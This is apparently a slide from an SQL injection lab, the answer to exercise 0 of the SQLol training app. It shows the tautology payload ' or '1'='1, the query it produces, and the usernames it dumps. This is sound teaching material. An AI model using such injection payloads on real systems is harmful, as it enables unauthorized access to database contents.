

# SQL注入实例 – SQLol（0）答案
' or '1'='1
Query (injection string is underlined): 
SELECT username FROM users WHERE username = '' or '1'='1' GROUP BY username ORDER BY username ASC 
Results:
Array ( [username] => Chunk MacRunfast ) 
Array ( [username] => Herp Derper ) 
Array ( [username] => Peter Weiner ) 
Array ( [username] => SlapdeBack LovedeFace ) 
Array ( [username] => Wengdack Slobdegoob )